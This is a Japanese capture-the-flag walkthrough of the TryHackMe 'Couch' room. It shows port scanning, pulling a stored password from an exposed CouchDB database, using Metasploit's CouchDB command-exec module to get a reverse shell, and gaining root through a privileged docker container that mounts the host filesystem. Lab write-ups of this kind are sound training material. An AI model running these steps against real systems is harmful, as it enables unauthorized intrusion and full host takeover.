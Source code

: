 # Couch CTF

https://tryhackme.com/room/couch

## Enumeration

### ポートスキャン

```shell
TARGET=10.10.177.200
root@ip-10-10-167-103:~# sudo nmap -sS -p- $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-20 07:49 GMT
Nmap scan report for 10.10.177.200
Host is up (0.0069s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5984/tcp open  couchdb
MAC Address: 02:C5:CD:D7:A3:FB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 4.86 seconds
root@ip-10-10-167-103:~# sudo nmap -sV -p22,5984 $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-20 07:49 GMT
Nmap scan report for 10.10.177.200
Host is up (0.00014s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
MAC Address: 02:C5:CD:D7:A3:FB (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.65 seconds
```

SSH, CouchDB

## CouchDB

### /_all_dbs

CouchDBのガイドから、/_all_dbs のパスを発見。

https://guide.couchdb.org/draft/tour.html

/_all_dbs

```json
["_replicator","_users","couch","secret","test_suite_db","test_suite_db2"]
```

/_replicator
```json
{"db_name":"_replicator","doc_count":1,"doc_del_count":0,"update_seq":1,"purge_seq":0,"compact_running":false,"disk_size":4194,"data_size":2006,"instance_start_time":"1742456849866598","disk_format_version":6,"committed_update_seq":1}
```

/_users

```json
{"db_name":"_users","doc_count":1,"doc_del_count":0,"update_seq":1,"purge_seq":0,"compact_running":false,"disk_size":4194,"data_size":2141,"instance_start_time":"1742456850388038","disk_format_version":6,"committed_update_seq":1}
```

/couch

```json
{"db_name":"couch","doc_count":1,"doc_del_count":0,"update_seq":2,"purge_seq":0,"compact_running":false,"disk_size":8287,"data_size":316,"instance_start_time":"1742458414236715","disk_format_version":6,"committed_update_seq":2}
```

/secret

```json
{"db_name":"secret","doc_count":1,"doc_del_count":0,"update_seq":2,"purge_seq":0,"compact_running":false,"disk_size":8287,"data_size":339,"instance_start_time":"1742458441885156","disk_format_version":6,"committed_update_seq":2}
```

/test_suite_db

```json
{"db_name":"test_suite_db","doc_count":3,"doc_del_count":1,"update_seq":6,"purge_seq":0,"compact_running":false,"disk_size":8297,"data_size":1097,"instance_start_time":"1742458468524093","disk_format_version":6,"committed_update_seq":6}
```

/test_suite_db2

```json
{"db_name":"test_suite_db2","doc_count":3,"doc_del_count":1,"update_seq":4,"purge_seq":0,"compact_running":false,"disk_size":8297,"data_size":1055,"instance_start_time":"1742458504970452","disk_format_version":6,"committed_update_seq":4}
```

### /_utils

同じガイドで _utils ページのパスを知った。管理Web画面が表示される。

secretの中を見ると下記の内容だった。

```json
{
   "_id": "a1320dd69fb4570d0a3d26df4e000be7",
   "_rev": "2-57b28bd986d343cacd9cb3fca0b20c46",
   "passwordbackup": "atena:ひみつ"
}
```

## Metasploit

```shell
msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set RHOSTS 10.10.177.200
RHOSTS => 10.10.177.200
msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set HttpUsername atena
HttpUsername => atena
msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set HttpPassword ひみつ
HttpPassword => ひみつ
msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set LHOST 10.2.22.182
LHOST => 10.2.22.182
msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set LPORT 8008
LPORT => 8080
msf6 exploit(linux/http/apache_couchdb_cmd_exec) > exploit

id
uid=110(couchdb) gid=117(couchdb) groups=117(couchdb)
```

シェルをとれた。

```shell
ls -al /home/atena
total 48
drwxr-xr-x 6 atena atena 4096 Dec 18  2020 .
drwxr-xr-x 3 root  root  4096 Oct 24  2020 ..
-rw------- 1 atena atena 3171 Dec 18  2020 .bash_history
-rw-r--r-- 1 atena atena  220 Oct 24  2020 .bash_logout
-rw-r--r-- 1 atena atena 3771 Oct 24  2020 .bashrc
drwxr-xr-x 3 root  root  4096 Oct 24  2020 .bundle
drwx------ 2 atena atena 4096 Oct 24  2020 .cache
drwx------ 2 root  root  4096 Oct 24  2020 .gnupg
drwxrwxr-x 2 atena atena 4096 Dec 18  2020 .nano
-rw-r--r-- 1 atena atena  655 Oct 24  2020 .profile
-rw-r--r-- 1 atena atena    0 Oct 24  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root  root   183 Oct 24  2020 .wget-hsts
-rw-rw-r-- 1 atena atena   22 Dec 18  2020 user.txt
cat /home/atena/user.txt
THM{..................}
```

ユーザーフラグゲット。

## 権限昇格１

secretテーブルから取得したデータで、atena にユーザー変更できた。

```shell
couchdb@ubuntu:/var/lib/couchdb$ su atena
su atena
Password: 

atena@ubuntu:/var/lib/couchdb$ id
id
uid=1000(atena) gid=1000(atena) groups=1000(atena),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
atena@ubuntu:/var/lib/couchdb$ 
```

## 権限昇格２

sudo はついていない。  
SUID, SGID も特になし。

.bash_history を見ると、既に侵害を受けているような形跡が見られた。

```
rm -r flag/
apt-get remove redis
nano root.txt
exit
sudo deluser USERNAME sudo
sudo deluser atena sudo
exit
sudo -s
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
id
sudo -l
find / -perm -u=s -type f -ls 2>/dev/null
```

同じdocker コマンドを実行したらrootシェルをとれた。

```shell
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

docker の /mnt ディレクトリに、ホストOSの / がマウントされている。

```shell
/ # ls -al /mnt/root
total 24
drwx------    3 root     root          4096 Dec 18  2020 .
drwxr-xr-x   22 root     root          4096 Oct 25  2020 ..
-rw-r--r--    1 root     root          3106 Oct 22  2015 .bashrc
drwxr-xr-x    2 root     root          4096 Oct 25  2020 .nano
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
-rw-r--r--    1 root     root            26 Dec 18  2020 root.txt
/ # cat /mnt/root/root.txt
THM{............}
```

ルートフラグゲット。

## 振り返り

- Metasploit使わずとも、パスワードを使って直で atena で SSH接続することができたので余計な手順だった。
- Metasploitはユーザー名とパスワード設定しなくても成功するが、パスワードを知らなければ atena への昇格ができなかった。
- alpine は lxd 権限昇格でも使うコンテナ。
